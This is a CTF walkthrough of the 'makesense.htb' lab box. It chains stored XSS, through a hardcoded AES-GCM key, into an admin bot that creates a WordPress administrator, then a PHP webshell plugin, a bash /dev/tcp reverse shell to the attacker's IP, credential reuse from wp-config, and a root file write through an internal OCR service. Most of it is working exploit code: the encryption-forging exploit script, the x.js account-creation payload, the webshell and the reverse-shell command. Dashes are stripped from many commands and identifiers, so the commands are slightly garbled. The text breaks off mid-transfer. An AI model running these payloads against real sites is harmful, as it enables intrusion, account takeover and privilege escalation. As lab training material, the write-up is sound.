





## Table of Contents
1. [Reconnaissance](#reconnaissance)
2. [Source Code Analysis & Vulnerability Discovery](#sourcecodeanalysisvulnerabilitydiscovery)
3. [Stage 1  Stored XSS to WordPress Admin](#stage1storedxsstowordpressadmin)
4. [Stage 2  Malicious Plugin Upload to RCE as wwwdata](#stage2maliciouspluginuploadtorceaswwwdata)
5. [Stage 3  Credential Reuse to SSH as walter](#stage3credentialreusetosshaswalter)
6. [User Flag](#userflag)
7. [Stage 4  Root via Internal OCR Service](#stage4rootviainternalocrservice)
8. [Root Flag](#rootflag)
9. [Summary](#summary)


## Reconnaissance

### Adding the host to /etc/hosts

The TLS certificate on port 443 revealed the vhost `makesense.htb`. I added it to my hosts file so requests would resolve correctly:

```bash
$ sudo nano /etc/hosts
```

```
10.129.53.17    makesense.htb
```


### Nmap TCP Scan

I started with a full TCP scan using default scripts and service detection:

```bash
$ sudo nmap sC sV Pn n oA makesense_nmap_scan 10.129.53.17
```

**Results:**

| Port | State   | Service     | Version                       |
|||||
| 22   | open    | ssh         | (tcpwrapped)                  |
| 443  | open    | ssl/https   | Apache/2.4.58 (Ubuntu)        |
| 80   | filtered | http       | (filtered)                    |
| 8001 | filtered | vcomtunnel | (filtered  internal service) |

Key observations from the scan:

 The SSL certificate's CN is `makesense.htb` (confirms vhost).
 `httpgenerator: WordPress 7.0` — the site is running WordPress.
 `httpserverheader: Apache/2.4.58 (Ubuntu)`.
 Port `8001` is **filtered** (not externally reachable) — this becomes important later as it's an internalonly service.
 Port 80 is filtered; all traffic is on 443.

### Nmap UDP Scan

A UDP scan came back essentially empty:

```bash
$ sudo nmap sU sC sV Pn n 10.129.53.17
```

```
PORT      STATE         SERVICE
68/udp    open|filtered dhcpc
49154/udp open|filtered unknown
```

No useful UDP services. The attack surface is the HTTPS WordPress site on 443 plus the SSH daemon on 22.

### WhatWeb Fingerprinting

```bash
$ whatweb a 3 https://makesense.htb/
```

```
https://makesense.htb/ [200 OK] Apache[2.4.58], Country[RESERVED][ZZ],
Email[info@webagency.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)],
IP[10.129.53.17], JQuery[3.7.1], MetaGenerator[WordPress 7.0],
Script[application/json,module], Title[Agency LLC],
UncommonHeaders[link], WordPress[7.0]
```

Confirms WordPress 7.0, theme by "WebAgency", site title "Agency LLC".

### WPScan Enumeration

```bash
$ wpscan url https://makesense.htb/ disabletlschecks \
    apitoken <API_TOKEN>
```

Key findings:

 **WordPress version**: 7.0 (outdated, released 20260520)
 **Theme**: `webagency` v1.0 — a custom theme, not a stock WordPress theme
 **XMLRPC**: enabled at `/xmlrpc.php`
 **Uploads directory**: listing enabled at `/wpcontent/uploads/`
 **WPCron**: enabled at `/wpcron.php`
 **Plugins**: none detected by passive scan

The fact that the `webagency` theme is custom is a strong hint — custom themes often contain custom code, which is where vulnerabilities tend to live.

### Subdomain Enumeration with ffuf

I checked for subdomains using a Host header fuzz:

```bash
$ ffuf u https://10.129.53.17/ \
    H "Host: FUZZ.makesense.htb" \
    w /usr/share/wordlists/seclists/Discovery/DNS/subdomainstop1million5000.txt \
    fs 34965
```

Only `www` was found (301 redirect, no separate vhost). All traffic goes to the main `makesense.htb` site.

### searchsploit for WordPress 7.0

```bash
$ searchsploit wordpress 7.0
```

Returned mostly older pluginspecific exploits (NEXForms SQLi, wpDiscuz file upload, etc.). None of the plugins listed were installed on this target, so no quick wins here. The vulnerability is in the custom `webagency` theme — I'd have to find it manually.


## Source Code Analysis & Vulnerability Discovery

### Browsing the Site

The homepage is a typical "web agency" landing page with a contact form. While clicking around, I noticed the site advertises a "voice transcription" feature — visitors can record a voice message through their microphone.



### Finding the JavaScript

With DevTools open (Network tab), I reloaded the page and inspected the loaded scripts. Several themespecific files were loaded from `/wpcontent/themes/webagency/assets/js/`. One of them stood out:

```
https://makesense.htb/wpcontent/themes/webagency/assets/js/whisper/whisperwrapper.js?ver=1.0
```

The name suggests it's the wrapper around the Whisper speechtotext model. I opened it directly in the browser to read the source.

### The Hardcoded Encryption Key

At the top of `whisperwrapper.js`, I found this:

```javascript
// Symmetric encryption key (must match serverside)
const ENCRYPTION_KEY = 'bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI';
```

A long, randomlooking string. The comment "must match serverside" tells us this same key is hardcoded in the PHP backend. **Anything shipped in clientside JavaScript is public** — anyone visiting the site can read it. This is the first crack in the wall.

### The Encryption Function

Further down, the `encryptPayload()` method reveals how the key is used:

```javascript
async encryptPayload(payload) {
    const encoder = new TextEncoder();
    const data = encoder.encode(JSON.stringify(payload));

    // Derive key from password using SHA256
    const keyMaterial = await crypto.subtle.digest(
        'SHA256',
        encoder.encode(ENCRYPTION_KEY)
    );

    const key = await crypto.subtle.importKey(
        'raw',
        keyMaterial,
        { name: 'AESGCM' },
        false,
        ['encrypt']
    );

    // Generate random IV (12 bytes for AESGCM)
    const iv = crypto.getRandomValues(new Uint8Array(12));

    // Encrypt
    const encrypted = await crypto.subtle.encrypt(
        { name: 'AESGCM', iv: iv },
        key,
        data
    );

    // Combine IV + ciphertext (tag is appended automatically by WebCrypto)
    const combined = new Uint8Array(iv.length + encrypted.byteLength);
    combined.set(iv, 0);
    combined.set(new Uint8Array(encrypted), iv.length);

    // Convert to base64
    let binary = '';
    combined.forEach(byte => binary += String.fromCharCode(byte));
    return btoa(binary);
}
```

The full algorithm is:

1. Take the hardcoded string `bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI`
2. Compute `SHA256` of it to derive the 32byte AES key
3. Generate a random 12byte IV
4. Encrypt the JSON payload with AESGCM (auth tag is appended automatically by WebCrypto)
5. Concatenate `IV || ciphertext+tag`
6. Base64encode the result

The plaintext payload looks like:

```json
{
    "transcription": "<the transcribed text>",
    "summary": "<AIgenerated summary>"
}
```

### The Vulnerability: Why This Is Broken

The developer clearly thought encrypting the payload provided integrity: "if it's encrypted with our key, the server can trust it came from our frontend." **This is wrong**, for two reasons:

1. **The key is in the JavaScript**, so anyone can read it. There is no secret.
2. **AESGCM is symmetric** — same key for encryption and decryption. With the key in hand, an attacker can encrypt any arbitrary payload they want.

The encryption provides **confidentiality in transit** (which HTTPS already does), but it provides **zero authentication**. Anyone who reads the JS can craft validlooking encrypted payloads with arbitrary content.

### Finding the AJAX Endpoints

I needed to find where this encryption was actually used. Searching the page source for `adminajax.php` (WordPress's standard AJAX endpoint), I found two relevant actions exposed via the `webagency_ajax` JS object:

```javascript
var webagency_ajax = {
    "ajax_url": "https://makesense.htb/wpadmin/adminajax.php",
    "nonce": "429bfaca67",
    "theme_url": "https://makesense.htb/wpcontent/themes/webagency",
    "site_url": "https://makesense.htb"
};
```

The nonce (`429bfaca67`) is the WordPress CSRF token used to protect AJAX requests. It's printed in the page source for any unauthenticated visitor — that's normal for WordPress.

By watching the Network tab while submitting the contact form, I identified two AJAX actions defined by the theme:

1. **`action=submit_contact_form`** — saves a contact form submission and returns a `post_id`
2. **`action=save_voice_results`** — saves the (encrypted) transcription and summary for a given `post_id`

The flow the frontend uses is:

1. User submits the contact form → server creates a WordPress "post" of some custom type → returns `post_id`
2. User records audio → Whisper transcribes it → distilbart summarizes it → JS encrypts `{transcription, summary}` → POSTs to `save_voice_results` with the `post_id`

The transcription is later rendered in the WordPress admin dashboard when an admin reviews the submission.

### The Symbol Mapping Function (Interesting but Not Used)

There's also this interesting function in the JS:

```javascript
applySymbolMapping(text) {
    const mappings = {
        'open bracket': '<',
        'close bracket': '>',
        'slash': '/',
        'quote': "'",
        ...
    };
    // Replaces spoken words with their symbol equivalents
    // e.g. "open bracket script close bracket" → "<script>"
}
```

This was clearly designed to let users *say* symbols ("open bracket" → `<`) when recording voice messages. The intent was probably benign — but it's a strong signal that the developer expected symbolic content in transcriptions and (apparently) didn't sanitize the output before rendering it in the admin panel. **Stored XSS via the transcription field** is the vulnerability.

### Reconnaissance Summary

At this point I had:

 The hardcoded AES key string: `bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI`
 The KDF: SHA256 → 32byte AES key
 The cipher: AESGCM with 12byte random IV, IV prepended to ciphertext, base64encoded
 The plaintext shape: `{"transcription": "...", "summary": "..."}`
 Two AJAX endpoints: `submit_contact_form` and `save_voice_results`
 The WordPress nonce for AJAX: `429bfaca67`
 Hypothesis: the `transcription` field is rendered unsanitized in the admin panel → stored XSS
 Hypothesis: there's an admin bot that periodically reviews new submissions (common HTB pattern)


## Stage 1  Stored XSS to WordPress Admin

The goal of Stage 1 is to leverage the stored XSS to make an admin bot create a new WordPress administrator account that I control.

### Step 1: Get a post_id via the contact form

The first request simply submits the contact form to create a new post on the server. The response contains the `post_id` I need for the next step.

```bash
$ curl s 'https://makesense.htb/wpadmin/adminajax.php' \
  X POST \
  H 'ContentType: application/xwwwformurlencoded; charset=UTF8' \
  H 'XRequestedWith: XMLHttpRequest' \
  H 'Origin: https://makesense.htb' \
  H 'Referer: https://makesense.htb/' \
  dataraw 'action=submit_contact_form&nonce=429bfaca67&name=Test&email=test%40test.com&phone=123456778&message=Test' \
  k | python3 m json.tool
```

```json
{
    "success": true,
    "data": {
        "message": "Thank you for contacting us! We will get back to you soon.",
        "post_id": 70
    }
}
```

The `post_id` (70) is what I'll attach the XSS payload to.

### Step 2: Replicate the AESGCM encryption in Python

I wrote a small Python function that exactly mirrors what `encryptPayload()` does in the JS:

```python
import hashlib, os, json, base64
from cryptography.hazmat.primitives.ciphers.aead import AESGCM

def encrypt(payload):
    # Step 1: derive the AES key from the hardcoded string via SHA256
    key = hashlib.sha256(b"bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI").digest()
    # Step 2: generate a random 12byte IV
    iv = os.urandom(12)
    # Step 3: encrypt with AESGCM (auth tag is appended automatically)
    ct = AESGCM(key).encrypt(iv, json.dumps(payload).encode(), None)
    # Step 4: concatenate IV + ciphertext+tag, base64encode
    return base64.b64encode(iv + ct).decode()
```

I verified this works by submitting a benign payload first (`{"transcription": "hello", "summary": "test"}`) and confirming the server returned `{"success":true,...}`. If the encryption were wrong, the server would have returned a decryption error.

### Step 3: The full Stage 1 exploit script

I combined everything into a single Python script that:

1. Submits the contact form to get a fresh `post_id`
2. Encrypts an XSS payload whose `transcription` field contains `<script src="http://MY_IP:8000/x.js"></script>`
3. POSTs the encrypted payload to `save_voice_results`

```python
#!/usr/bin/env python3
# exploit.py
import hashlib, os, json, base64, requests, urllib3
urllib3.disable_warnings()

BASE = "https://makesense.htb"
NONCE = "429bfaca67"
LHOST = "10.10.16.66"  # my VPN IP

def encrypt(payload):
    from cryptography.hazmat.primitives.ciphers.aead import AESGCM
    key = hashlib.sha256(b"bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI").digest()
    iv = os.urandom(12)
    ct = AESGCM(key).encrypt(iv, json.dumps(payload).encode(), None)
    return base64.b64encode(iv + ct).decode()

# Step A: Get a fresh post_id by submitting the contact form
print("[*] Getting fresh post_id...")
r = requests.post(f"{BASE}/wpadmin/adminajax.php", data={
    "action": "submit_contact_form",
    "nonce": NONCE,
    "name": "test",
    "email": "test@test.com",
    "phone": "1",
    "message": "hello"
}, verify=False)
post_data = r.json()
print(f"    post_id = {post_data['data']['post_id']}")
POST_ID = post_data['data']['post_id']

# Step B: Submit XSS payload that loads x.js from my listener
print(f"[*] Submitting XSS callback test to post_id={POST_ID}...")
payload = {
    "transcription": f'<script src="http://{LHOST}:8000/x.js"></script>',
    "summary": "test"
}
r = requests.post(f"{BASE}/wpadmin/adminajax.php", data={
    "action": "save_voice_results",
    "nonce": NONCE,
    "post_id": str(POST_ID),
    "encrypted_payload": encrypt(payload),
}, verify=False)
print(f"    {r.status_code}: {r.text}")
```

### Step 4: Start an HTTP listener for the bot callback

In a separate terminal, I started a Python HTTP server to serve `x.js`:

```bash
$ mkdir serve && cd serve
$ python3 m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 ...
```

### Step 5: Confirm the bot visits (XSS works)

I ran the exploit, then waited. Within a couple of minutes, my listener logged:

```
10.129.246.24   [12/Jul/2026 03:20:28] "GET /x.js HTTP/1.1" 404 
```

The source IP is the MakeSense box itself. The admin bot visited my post, the `<script src="...">` tag rendered in its browser, and the browser fetched `x.js` from my machine. **This confirms the stored XSS works.**



The 404 was because `x.js` was empty at that point — but the request itself is the proof of execution.

### Step 6: Write x.js to create an admin user

Now I needed `x.js` to do something useful. The plan: use the admin bot's authenticated session to call `/wpadmin/usernew.php` and create a new administrator account.

The JavaScript does four things:

1. **Fetch `/wpadmin/usernew.php`** with `credentials: 'include'` so the admin's cookies are sent. This is the page with the "Add New User" form.
2. **Extract the `_wpnonce_createuser`** value from the HTML response. WordPress nonces protect form submissions; without the nonce, the POST will be rejected.
3. **Build a URLencoded form body** containing all the fields WordPress expects: `user_login`, `email`, `pass1`, `pass2`, `pw_weak=1` (to bypass the weakpassword confirmation), `role=administrator`, etc.
4. **POST the form** back to `/wpadmin/usernew.php`. WordPress processes it and creates the user.

There are two important details in the final version of `x.js`:

 **`keepalive: true`** on the POST fetch — without this, the browser may abort the request when the bot navigates away from the page midPOST. This caused the "Failed to fetch" errors I initially saw.
 **`new Image().src = url`** for debug callbacks instead of `fetch()` — Image loading is not aborted on page navigation, so the debug pings reliably reach my listener.

```javascript
// x.js
(async () => {
    // Helper: send oneway debug info via Image() (survives page unload)
    function ping(url) {
        try { new Image().src = url; } catch(e) {}
    }

    try {
        // === Step 1: Fetch usernew.php to get the form nonce ===
        const r = await fetch('/wpadmin/usernew.php', { credentials: 'include' });
        const html = await r.text();

        // === Step 2: Extract the nonce ===
        const m = html.match(/id="_wpnonce_createuser"[^>]*value="([af09]+)"/);
        if (!m) {
            ping('http://10.10.16.66:8000/debug?step=nonce_missing');
            return;
        }
        const nonce = m[1];
        ping(`http://10.10.16.66:8000/debug?step=nonce_found&n=${nonce}`);

        // === Step 3: Build the form body ===
        const body = new URLSearchParams();
        body.set('action', 'createuser');
        body.set('_wpnonce_createuser', nonce);
        body.set('_wp_http_referer', '/wpadmin/usernew.php');
        body.set('user_login', 'test');
        body.set('email', 'test@test.com');
        body.set('pass1', 'Helloworld123#');
        body.set('pass1text', 'Helloworld123#');
        body.set('pass2', 'Helloworld123#');
        body.set('pw_weak', '1');
        body.set('role', 'administrator');
        body.set('createuser', 'Add New User');

        // === Step 4: POST with keepalive:true (survives page navigation) ===
        const r2 = await fetch('/wpadmin/usernew.php', {
            method: 'POST',
            credentials: 'include',
            headers: { 'ContentType': 'application/xwwwformurlencoded' },
            body: body.toString(),
            keepalive: true   // < the key fix
        });

        ping(`http://10.10.16.66:8000/done?status=${r2.status}`);

    } catch (e) {
        ping(`http://10.10.16.66:8000/err?msg=${encodeURIComponent(e.message)}`);
    }
})();
```

### Step 7: Verify the user was created

After rerunning `exploit.py` to inject the XSS into a fresh post and waiting ~2 minutes, my listener logged:

```
GET /x.js HTTP/1.1" 200 
GET /debug?step=nonce_found&n=68208e9e75 HTTP/1.1" 404 
GET /done?status=302 HTTP/1.1" 404 
```

Reading the log:

1. The bot loaded `x.js` (200).
2. The script successfully extracted the nonce `68208e9e75` from `usernew.php` — this means the bot's session **is** authenticated as admin (otherwise the nonce wouldn't be in the page).
3. The POST returned `302` — WordPress redirects to the users list on successful user creation.

I then went to `https://makesense.htb/wplogin.php` and logged in with `test` / `Helloworld123#`. The dashboard loaded — **I was an administrator**.



**Stage 1 complete.** Stored XSS via hardcoded AESGCM key → admin bot creates administrator account → authenticated admin access.


## Stage 2  Malicious Plugin Upload to RCE as wwwdata

With WordPress admin access, I now had access to the plugin upload functionality — and WordPress admins can upload arbitrary PHP code as plugins. This is a standard WordPress postexploitation technique, not a new vulnerability.

### Step 1: Create the malicious plugin

A WordPress plugin is just a PHP file with a special header comment. I created a tiny webshell plugin:

```bash
$ mkdir p plugin/wshell
$ cat > plugin/wshell/wshell.php << 'EOF'
<?php
/*
Plugin Name: wshell
*/
if (isset($_REQUEST['c'])) {
    echo '<pre>';
    system($_REQUEST['c']);
    echo '</pre>';
}
?>
EOF
```

The `Plugin Name: wshell` header is mandatory — WordPress refuses to install a plugin without it. The `system($_REQUEST['c'])` block runs whatever shell command is passed via the `c` query parameter.

### Step 2: Package and upload

```bash
$ cd plugin
$ zip r wshell.zip wshell/
```

Then through the WordPress admin UI:

1. Navigate to `Plugins → Add New → Upload Plugin`
2. Select `wshell.zip`
3. Click "Install Now"
4. **Click "Activate"** (critical — without activation, the plugin file is on disk but WordPress won't serve it)



### Step 3: Test the webshell

Visiting the plugin file directly with a `c` parameter executes the command:

```
https://makesense.htb/wpcontent/plugins/wshell/wshell.php?c=id
```

```
uid=33(wwwdata) gid=33(wwwdata) groups=33(wwwdata)
```

**RCE as `wwwdata` confirmed.**



### Step 4: Upgrade to a real reverse shell

The webshell works but is limited — no interactive prompt, no command history, no TTY. To get a proper reverse shell:

**Start a netcat listener on my Kali:**

```bash
$ nc lvnp 4444
listening on [any] 4444 ...
```

**Trigger a bash TCP reverse shell through the webshell:**

```bash
$ curl k G "https://makesense.htb/wpcontent/plugins/wshell/wshell.php" \
  dataurlencode "c=bash c 'bash i >& /dev/tcp/10.10.16.66/4444 0>&1'"
```

The payload `bash c 'bash i >& /dev/tcp/10.10.16.66/4444 0>&1'` works as follows:

 `bash c '...'` — run the inner command in a new bash process
 `bash i` — start bash in interactive mode
 `>& /dev/tcp/HOST/PORT` — redirect stdout AND stderr to a TCP socket connected to my listener
 `0>&1` — redirect stdin from the same socket

**Netcat output:**

```
connect to [10.10.16.66] from (UNKNOWN) [10.129.246.24] 39570
bash: cannot set terminal process group (1410): Inappropriate ioctl for device
bash: no job control in this shell
wwwdata@makesense:/var/www/html/wpcontent/plugins/wshell$ 
```

### Step 5: Upgrade to a fully interactive TTY

The raw reverse shell has no tab completion, no command history, and `CtrlC` kills it. I upgraded it with Python's `pty` module:

**In the reverse shell:**
```bash
wwwdata@...$ python3 c 'import pty; pty.spawn("/bin/bash")'
```

**Press `CtrlZ` to background the shell.**

**In my Kali terminal:**
```bash
$ stty raw echo; fg
```

This disables local echo and brings the shell back to foreground.

**Back in the (now interactive) reverse shell:**
```bash
export TERM=xterm
export SHELL=bash
stty rows 50 columns 200
```

Now I had a proper interactive shell with tab completion, command history, working `CtrlC`, and the ability to run TTYrequiring commands like `su`.


## Stage 3  Credential Reuse to SSH as walter

I was `wwwdata` and wanted to escalate to `walter` to read `~/user.txt`. The standard WordPress escalation path is **credential reuse** — the database password is often reused for system accounts.

### Step 1: Read wpconfig.php

The WordPress configuration file lives at `/var/www/html/wpconfig.php` and contains the MySQL database credentials:

```bash
wwwdata@makesense:/var/www/html$ cat wpconfig.php | grep i password
```

```php
define( 'DB_PASSWORD', 'JbhHDAEgXvri3!' );
```

(I later realized this is the same password the original hint claimed was hidden in the WAV file — it was actually just the MySQL password in `wpconfig.php`, readable once you have any kind of code execution on the webserver.)

### Step 2: Try the password as walter's SSH password

From my Kali, I opened a new SSH session:

```bash
$ ssh walter@10.129.246.24
```

```
walter@10.129.246.24's password: 
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0124generic x86_64)
...
Last login: Sun Jul 12 08:09:32 2026 from 10.10.16.66
walter@makesense:~$ 
```

The MySQL password was reused as `walter`'s SSH password — a textbook credential reuse vulnerability.

### Why credential reuse is so common

This pattern shows up constantly in realworld and CTF scenarios because:

1. **Human memory is limited.** People reuse one strong password across multiple services rather than managing unique passwords for each.
2. **Configuration files are often worldreadable** by the web server user. Anyone with `wwwdata` access can read database credentials.
3. **There's no automated enforcement** that database passwords differ from system passwords.
4. **Developers don't always realize that `wwwdata` can read `wpconfig.php`** — they think "it's just the webserver reading its own config."

The fix is straightforward: use a password manager, generate unique random passwords for each service, and rotate any credential that appears in a config file.


## User Flag

```bash
walter@makesense:~$ ls
user.txt
walter@makesense:~$ cat user.txt
ed141b40c21aacdb543a41aab330d53e
```

**User flag captured.**


## Stage 4  Root via Internal OCR Service

The goal of Stage 4 is to escalate from `walter` to `root`. The path involves an internal OCR (Optical Character Recognition) service running on the box that has a subtle but devastating vulnerability.

### Step 1: Find Local Listening Ports

The initial Nmap scan from outside showed port 8001 as `filtered` — that means a service is running there but firewalled to internalonly access. Now that I'm inside the box as `walter`, I should be able to reach it.

I enumerated all listening TCP ports using `ss` (the modern `netstat`):

```bash
walter@makesense:~$ ss tlnp
```

```
State   RecvQ  SendQ  Local Address:Port      Peer Address:Port  Process
LISTEN  0       4096    127.0.0.1:8001          0.0.0.0:*
LISTEN  0       4096    0.0.0.0:22              0.0.0.0:*
LISTEN  0       511     0.0.0.0:80              0.0.0.0:*
LISTEN  0       511     0.0.0.0:443             0.0.0.0:*
LISTEN  0       4096    127.0.0.53%lo:53        0.0.0.0:*
LISTEN  0       4096    127.0.0.54:53           0.0.0.0:*
```

Key findings:

 **`127.0.0.1:8001`** — the mystery service, listening on localhost only (confirming what Nmap showed as filtered)
 `0.0.0.0:22` — SSH
 `0.0.0.0:80` and `0.0.0.0:443` — Apache (WordPress)
 `127.0.0.53:53` — systemdresolved (DNS, can ignore)

### Step 2: Probe the OCR Service

I connected to the service to see what it was:

```bash
walter@makesense:~$ curl v http://127.0.0.1:8001/
```

```
*   Trying 127.0.0.1:8001...
* Connected to 127.0.0.1 (127.0.0.1) port 8001
> GET / HTTP/1.1
> Host: 127.0.0.1:8001
> UserAgent: curl/8.5.0
> Accept: */*
>
< HTTP/1.0 401 Unauthorized
< XPoweredBy: PHP/8.3.6
< WWWAuthenticate: Basic realm="OCR Protected"
< Contenttype: text/html; charset=UTF8
<
Authentication required.
```

Key observations:

 **It's a PHP app** (`XPoweredBy: PHP/8.3.6`)
 **HTTP Basic Auth** required, realm "OCR Protected"
 **HTTP/1.0** (suggests PHP's builtin web server, not Apache)

### Step 3: Check What User Runs the Service

Before doing anything else, I needed to know what user the service runs as — if it runs as root, anything it writes to disk is owned by root. I checked the process list:

```bash
walter@makesense:~$ ps aux | grep iE 'ocr|tesseract|php'
```

```
root  1399  /bin/sh c /root/.scripts/start_ocr4.sh
root  1400  /bin/bash /root/.scripts/start_ocr4.sh
root  1406  php S 127.0.0.1:8001 t /root/ocr4/
```

**Three critical pieces of information from this output:**

1. **The PHP server runs as `root`** ✅ — anything it writes will be owned by root.
2. **It's PHP's builtin server** (`php S`), not Apache — singlethreaded, simpler, and serves the directory directly.
3. **The document root is `/root/ocr4/`** — owned by root, so I can't read it directly as `walter`.

I also confirmed I have no sudo access (no shortcut today):

```bash
walter@makesense:~$ sudo l
Sorry, user walter may not run sudo on makesense.
```

### Step 4: Authenticate to the OCR Service

The HTTP Basic Auth realm said "OCR Protected". The most likely credentials were `walter`'s own password (the same `JbhHDAEgXvri3!` from `wpconfig.php` — credential reuse strikes again). I tried it:

```bash
walter@makesense:~$ curl s u walter:JbhHDAEgXvri3! http://127.0.0.1:8001/
```

It worked — I got the full HTML page. (Same password as the MySQL database AND SSH — a textbook credential reuse vulnerability.)

### Step 5: Understand the OCR Service

I saved and read the HTML to understand what the service does. The page title is "MakeSense" with the headline "Draw text. Read it back." The page lets you:

1. Draw text on an HTML `<canvas>` with your mouse/finger
2. Click "Recognize" to OCR the drawing
3. Save the recognized text to a file (with a filename you choose)

The relevant HTML form is minimal:

```html
<form method="post" id="canvasForm" style="display:none;">
    <input type="hidden" name="canvas_image" id="canvas_image">
</form>
```

```javascript
function sendCanvas() {
    document.getElementById('canvas_image').value = canvas.toDataURL('image/png');
    document.getElementById('canvasForm').submit();
}
```

So the flow is:

1. The canvas is converted to a PNG data URL (`data:image/png;base64,...`)
2. The data URL is POSTed to `/` as the `canvas_image` field
3. The server runs OCR on the image and returns a new page with the recognized text
4. The new page has a second form to save the text to a file

### Step 6: The Vulnerability  Arbitrary File Write as Root

After submitting a test image, the response page contained a second form:

```html
<p class="outputtext">hello world this is a test</p>

<form method="post">
    <input type="hidden" name="ocr_id" value="ocr_6a538689ec9f42.21500392">
    <div class="saverow">
        <input type="text" name="filename" placeholder="result.txt" required>
        <button type="submit" name="save_output" class="solidbtn">Save</button>
    </div>
</form>
```

The save form takes three fields:

 `ocr_id` — a session identifier (server stores the OCR text under this ID)
 `filename` — the filename to save the text as (**usercontrolled, no extension whitelist**)
 `save_output=Save` — the submit button

The success message after saving confirmed the file location:

```html
<p class="notice success reveal">Saved as: saved/test123.txt</p>
```

So the file gets written to `saved/<filename>` inside the document root (`/root/ocr4/saved/`).

**The vulnerability is a combination of three flaws:**

1. **User controls the file content** — the OCR text (which becomes the file content) is determined by what image the user submits. Draw or render any text you want.
2. **User controls the filename** — no extension whitelist, so you can save as `pwn.php`.
3. **Files go to a PHPserved directory** — anything written to `/root/ocr4/saved/` is served by the PHP server, and `.php` files are executed.
4. **The OCR process runs as root** — files are written as root, and PHP executes them as root.

The full chain: render PHP source code as a PNG → submit to OCR → server reads the PHP source as text → save with `filename=pwn.php` → hit `http://127.0.0.1:8001/saved/pwn.php` → PHP engine executes the payload as root.

### Step 7: Verify the Save Flow with Benign Content

Before crafting the exploit, I verified the full pipeline works with a benign image. On my Kali, I created a Python script to render text as a PNG:

```python
#!/usr/bin/env python3
# render.py  run on Kali
from PIL import Image, ImageDraw, ImageFont
import base64

text = "hello world this is a test"
font = ImageFont.truetype("/usr/share/fonts/truetype/dejavu/DejaVuSansMono.ttf", 64)

# Measure
tmp = Image.new("RGB", (10, 10))
dd = ImageDraw.Draw(tmp)
bb = dd.textbbox((0, 0), text, font=font)
W, H = bb[2]  bb[0] + 80, bb[3]  bb[1] + 80

# Render
img = Image.new("RGB", (W, H), "white")
ImageDraw.Draw(img).text((40  bb[0], 40  bb[1]), text, fill="black", font=font)
img.save("test.png")

# Also output as data URL for easy curl use
data_url = "data:image/png;base64," + base64.b64encode(open("test.png", "rb").read()).decode()
with open("test_dataurl.txt", "w") as f:
    f.write(data_url)
print(f"Saved test.png ({W}x{H})")
print(f"Data URL saved to test_dataurl.txt ({len(data_url)} chars)")
```

I transferred the data URL to the target:

```bash
# On Kali, serve the file
$ python3 m http.server 9000

# On target, download it
